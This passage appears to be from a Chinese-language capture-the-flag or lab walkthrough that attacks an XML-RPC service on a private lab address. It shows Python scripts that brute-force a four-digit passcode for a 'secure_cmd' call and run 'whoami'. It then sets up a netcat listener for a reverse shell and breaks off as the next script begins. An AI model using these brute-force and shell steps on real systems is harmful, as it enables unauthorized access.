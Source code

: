 >import xmlrpc.client
>
>with xmlrpc.client.ServerProxy("http://10.0.2.12:8000/") as proxy:
>    	print(str(proxy.cpu()))

执行测试是否可行(在shell里不好编辑，可用蚁剑上传)

```
python3 a.py
```

![image-20211124105602436](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124105602436.png)

成功打印出cpu信息

```
vi b.py
```

![image-20211124112829598](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124112829598.png)

>import xmlrpc.client
>
>with xmlrpc.client.ServerProxy("http://10.0.2.12:8000/") as proxy:
>
>​	for p in range(1000,10000):
>
>   	r = str(proxy.secure_cmd('whoami',p))
>
>​		if not "Wrong" in r:
>
>​				print(p)
>
>​				print(r)
>
>​				break

```
python3 b.py
```

![image-20211124112719226](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124112719226.png)

执行成功，passcode为1447

kali端：

```
nc -nvlp 5555
```

![image-20211124141525887](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124141525887.png)

```
vi c.py
```
